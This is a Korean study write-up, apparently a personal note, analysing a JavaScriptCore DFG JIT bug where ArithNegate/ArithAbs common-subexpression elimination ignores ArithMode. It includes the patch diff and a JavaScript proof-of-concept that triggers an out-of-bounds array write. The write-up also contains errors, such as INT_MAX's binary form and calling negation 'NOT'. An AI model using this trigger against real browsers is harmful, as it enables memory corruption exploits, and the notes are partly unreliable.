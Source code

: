 여기서 def 함수의 PureValue 함수는 계산이 어떤 컨텍스트에도 의존하지 않기 때문에 동일한 입력이 주어질 때 항상 동일한 결과를 반환한다.(뭔 소린지 모르겠음)

또한 ArithMode의 매개변수를 이용하여 PureValue 함수의 작동 방식을 지정할 수 있다.

예를 들어 정수 오버플로우를 다르게 처리하는 두 ArithMul 작업이 서로 대체되는 것을 방지할 수 있다.

오버플로우를 처리하는 작업은 “checked” 연산이라고 하며, 오버플로우를 감지하지 않고 처리하지 않는 작업은 “unchecked” 연산이라고 한다.

## 취약점 분석

---

해당 취약점은 음수를 처리하는 `ArithNegate`에서 발생한다.

`ArithNegate`는 32비트 정수의 NOT 연산을 처리한다.

```c
case ArithNegate:
        if (node->child1().useKind() == Int32Use || ...)
            def(PureValue(node));          // <- only the input matters, not the ArithMode
```

위 코드가 CSE의 `checked` 연산을 `unchecked` 연산으로 유도할 수 있다.

해당 취약점은 INT_MIN(-2147483648)을 NOT 연산할 때 발생한다.

2147483648 같은 경우는 INT 자료형으로 표시할 수 없는 값이기 때문에 INT_MIN이 되게 된다.

- INT_MIN : -2147483648 (1000 0000 0000 0000 0000 0000 0000 0000)
- INT_MAX : 2147483647 (1000 0000 0000 0000 0000 0000 0000 0001)
- -INT_MIN : 2147483648 → -2147483648 (1000 0000 0000 0000 0000 0000 0000 0000)

해당 버그에 대한 패치는 다음과 같다.

```
-            def(PureValue(node));
+            def(PureValue(node, node->arithMode()));
```

`arithMode`를 고려하도록 하여 두개의 연산이 서로 대체되지 않도록 하였다.

해당 버그는 `ArithNegate` 뿐만 아니라 `ArithAbs`에서도 발생한다.

해당 버그를 통해 OOB를 트리거 할 수 있다.

### OOB 트리거

---

아래 코드는 해당 버그를 통해 OOB를 트리거 할 수 있다.

```jsx
function hax(arr, n) {
    n |= 0;
    if (n < 0) {
        let v = (-n)|0;
        let i = Math.abs(n);
        if (i < arr.length) {
            if (i & 0x80000000) {
                i += -0x7ffffff9;
            }
            if (i > 0) {
                arr[i] = 1.04380972981885e-310;
            }
        }
    }
}
```
